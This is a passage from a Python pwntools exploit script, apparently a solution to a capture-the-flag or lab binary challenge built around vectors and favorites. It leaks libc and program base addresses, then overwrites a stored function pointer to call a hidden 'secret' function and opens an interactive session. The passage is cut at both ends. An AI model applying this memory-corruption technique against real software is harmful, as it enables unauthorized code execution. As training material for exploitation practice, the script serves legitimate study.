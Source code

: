        r.recvuntil("COMMAND: ")
def sum_to_fave(parse = False):
    r.sendline("4")
    if parse:
        return r.recvuntil("COMMAND: ")
    else:
        r.recvuntil("COMMAND: ")

def print_faves(parse = False):
    r.sendline("5")
    if parse:
        return r.recvuntil("COMMAND: ")
    else:
        r.recvuntil("COMMAND: ")

def load_fave(fave,vector, parse = False):
    r.sendline("6")
    r.sendline(str(fave))
    r.sendline(str(vector)) 
    if parse:
        return r.recvuntil("COMMAND: ")
    else:
        r.recvuntil("COMMAND: ")

def get_help(parse = False):
    r.sendline("9")
    if parse: 
        return r.recvuntil("COMMAND: ")
    else:
        r.recvuntil("COMMAND: ")

def exploit(r):
    ### SETUP VECTORS + LEAKS ###
    print_vector(1)
    printf_leak = u32(enter_data(1, 1,1,1,2075756627,1,1,1,1,1, True).split("? ")[1][:4])
    libc_base = printf_leak-0x4d280 # not necessary
    log.success("libc base found @ "+hex(libc_base))
    print_vector(1)
    printVectorleak = int(get_help(True).splitlines()[1].split(": ")[1],16) # bcus of stupid buffering issues
    log.success("printVector func found @ "+hex(printVectorleak))
    elf_base = printVectorleak-0x10e9
    secretLeak = elf_base+0x10a7
    log.success("secret func found @ "+hex(secretLeak))
    enter_data(2, 1,1,1,secretLeak-2075756627,1,1,1,1,1) 
    
    ### POPULATE v3.d w/ 0X41414141 ###
    sum_vectors()
    
    ### LOAD SUM TO FAVORITES 4 TIMES ###
    sum_to_fave()
    sum_to_fave()
    sum_to_fave()
    sum_to_fave()
    
    ### LOAD fave[3] INTO v1  ###
    load_fave(3,1)
    
    ### PRINT v1 ###
    r.sendline("3")
    r.sendline("1")
 
    r.interactive()

if __name__ == "__main__":